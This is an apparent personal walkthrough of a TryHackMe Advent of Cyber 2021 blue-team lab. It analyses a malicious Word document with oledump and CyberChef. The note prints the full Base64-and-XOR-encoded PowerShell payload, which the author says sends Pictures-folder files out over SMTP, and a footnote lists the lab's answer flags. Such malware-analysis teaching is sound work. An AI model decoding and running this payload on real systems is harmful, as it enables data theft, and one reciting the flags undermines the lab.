





# TryHackMe - Advent of Cyber 2021 - Day 22
## How it Happened (Blue Teaming)
> Edward Hartmann
> January 9, 2022

***<u>Refs/Links:</u>***
- [Advent of Cyber 2021 TOC](Advent%20of%20Cyber%20Table%20of%20Contents.md)  
-  Tags[^1]
-  Flag[^2]

[^1]: #ir #blue #oledump #malware #xor #base64 #powershell 
[^2]: *Question 1:* `Grinch.Enterprises.2021@gmail.com`  
					*Question 2:* `Christmas Wishlist`  
					*Question 3:* `Christmas Wishlist`  
					*Question 4:* `587`  
					*Question 5:* `YouFoundGrinchCookie`  
					*Question 6:* `S@nt@c1Au$IsrEAl`  

## TOC
- [Questions 1-4](#Questions-1-4)
- [Question 4](#Question-4)
- [Question 5](#Question-5)
- [Question 6](#Question-6)

## Walkthrough
We are getting close to identifying the source of all our problems, and have found that Grinch Enterprises left a malicious document on the machine, but we cannot find the document itself. We know this document contains a malicious, obfuscated base64 encoded script that also have a secret cipher ingredient, [XOR Encoding](../../../../Knowledge%20Base/Concepts/General/Encoding%20and%20Decoding.md#XOR)  with the key*decimal 35* and that we will also be dealing with [Base64 encoding](../../../../Knowledge%20Base/Concepts/General/Encoding%20and%20Decoding.md#Base64). 

> This will take place on the "Attack Box." You can connect via RDP if you would like to do so. 

### Questions-1-4
[Top](#TOC)

To start with, I chose to move the `Santa_Claus_Naughty_List_2021.doc` into the `Tools > oledump....` folder for easier analysis. Once this is done, run the command:

```
oledump.py Santa_Claus_Naughty_List_2021.doc
```



We can see that lines 12-14 contain a macro, worth investigating later. However, the lab instructs us that we need to dump the contents or stream number eight, so let's do that now. 



That is a lot of data. Fortunately, we've been given some clues. We know this is [Base64](../../../../Knowledge%20Base/Concepts/General/Encoding%20and%20Decoding.md#Base64) from the `==` at the end of the string, and we are told that this is [XOR Encoding](../../../../Knowledge%20Base/Concepts/General/Encoding%20and%20Decoding.md#XOR) with the secret key *decimal 35*, which converted to binary, equals `10011`. Let's take this to [CyberChef](https://gchq.github.io/CyberChef/). 

We want only the part of the string in the image after `GrinchEnterprisesIsComingForYou` starting with `ahNtw`. 

```
ahNtWnl0cVNHa25EeREaT0BaYRNBWmFid3RlVkJ0ZVp1Tk9aenRURGhkSxNHa2FZbEobVUdrR1NHa3FPQEoWSUERE1VBdGVWQnRlWkdOT1p6dFRTamR5VUBKYRBATk8TQnQWTWprcUxCe25EentHT0ARGld5cGFwcnVyS2BETEhHe21PQE4WS0F0dhpqSEdaQnQWSUJgFmVBTXFPQE1hWkJ7bU9AWhdabmdqW3JkR1d6dE9Qb05tVUFwamhpa2FLQBBtEEEQaUhzcGl3cmQWE3p0SEh6ERpXQnQWTUdnYRNua0dWakRMSEAREhNAZW1PQE15T0BKYhpqYGlZQXtxVG9OR1d6dE9Qb05tVUFwamhpZBJZeVpiGmpkFk9HWhJVek5TT3oQckR3TnUTb0gSS0J0VFZ3dGVTQWYST0AQbUt5EXZoYEpxWUF7cVRqZxNEd051EG92GkpCTnVJR2BhbHl7clZ3dGVTQWAWd0F7cVRyEVtTeXQWE2hgcXdBe3FUdhF1WkdOdVpvYGISbGdAU2piTGhpa21XR2tiVnF0Fkt6TltPdhBtUGpnE0Rpa3FaR3R2aGBKcVlBe3FUb0htWnl0cU9BTXFTenRbWWpnE0R3TnUQb3YaSkJOdUlHYGF3RnttE3l0E1Z3TnUTb0gWT0drR1VATldnQE51SHl0FhNCdGVQaGBxEkARdVpBTmVXeXBUSEBkZVlAEEdVQE5yU2BETGhpZBJZeVoWZEBOGldqZxNEak1tS0FNcUtAEGFaeXttT0FNcVl5ZHVQQnt5T0BNT2J5ERJLQnRUVnoRGldqRExoaWQSWXlaFnZBWhZheWRyTGpIR1pCdBZJQmAWZUFNcU9ATWFaQnttT0BaF1puZ2pbcmRHV3p0T1BvTm1VQXBqU2BETEhBe21Nb0hpVXlrSBpqT09VR3tqREBraU9AEXVWR2tuREJkZRF5cGFLQE1pU0dOdUhqcGpoYEpxV0ARQFZ2EHVKQk51SUdgYhpqYGlnQmtpU0AQcVd6e25EdRFPWUJkW1NAEHJKYERMSHlOT1B5e24acRF1E292bUxCdFtIcHtxT0FwYkppZHVWR0lTdXYTdXB2ZWlzcUhPbnF1W3JCdG0TR3tpT0ASW2tATk9WehFEWm5nalt7YGpoYEh5VUBOdUt6EURMaWR5U0FkdkRCdBdEaWR5U0FkdVloclMUYEpxS0drcUt6EUtXeXQWE2pnE0RBTnUQb3QaSkJOdUlHYGF3RnttE3l0E1Z3TnUTb0gSS0J0VFZye3ETenRtTEF0dVZHYGJXcntpTUd0Ek9BTXFuQnttE2pgcU5CdFtPb0h5EkFkW2x6dBJPYEpxV0ARQFZye3ETenRtTEF0dVZHa25WcnRxSGhgcUtHa3FLehFLV3l0FhNockxoRXJMSEAREhNAYBZ3eXQWSGhgcVdAEUBTYEpxS0drcUt6EUtXeXQWE29IcVNAEGFVQBF2TGh3UGhpZBJZeVoWZkJ7bVRBEG1PaGBIFA==
```

Apply the `From Base64` and `XOR` recipes to this string, using a `Key` of 35 and setting the Key to `Decimal`. 



Immediately, we can see this comes right back out as Base64. It seems this string was double encoded! Apply another `From Base64` decoding step to the string and note the result comes out as actual code! There is also some metadata exposed in the code we need for flags. 



Here, we can the answers to *Questions 1-4*. 

### Question-5
[Top](#TOC)

It seems that this document is performing some data exfiltration using `SMTP` to steal items from the `Pictures` folder. We are told there are two flags in the document as well. Let's see if we can find them. 

Starting with the first stream, we use the same command as above to dump the data contained in each stream. At stream 7, we find some visible information that contains a cookie that is the answer for *Question 5.*

```
oledump.py -s 7 -d Santa_Claus_Naughty_List_2021.doc
```



### Question-6
[Top](#TOC)

Finally, we are told to get the last flag and hinted that the location of the clue is given to us in the deobfuscated [PowerShell](../../../../Tools,%20Binaries,%20and%20Programs/Windows/PowerShell.md) script. The script they are referring to is the dump from `stream 8` we already analyzed. Recall that it was attempting to extract files from the `Pictures/Grinch2021` directory? Head there and you'll see a `PNG` file that contains our flag. 


***Congratulations on completing this box!***  

See you at the next one &mdash; [Advent of Cyber 3 Day 23](Day%2023%20-%20Advent%20of%20Cyber%202021.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
